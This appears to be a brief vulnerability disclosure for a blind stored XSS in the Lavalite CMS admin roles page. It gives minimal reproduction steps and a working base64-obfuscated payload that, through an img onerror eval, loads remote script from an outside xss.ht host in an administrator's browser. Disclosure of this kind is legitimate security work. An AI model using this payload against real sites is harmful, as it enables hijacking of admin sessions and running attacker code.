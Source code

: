 # Description
Blind XSS triggered at roles/role page of lavalite CMS admin account.
# Payload USED
```
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYmVlZmVlLnhzcy5odCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
```
# POC
* go to roles/role page edit/create role with xss payload
* Booyah!!! XSS triggered.
# PermaLinks
[drive link](https://drive.google.com/drive/folders/1BZE6wJ_3YhzzzNTukawqjsRLaaxJDzXK?usp=sharing)
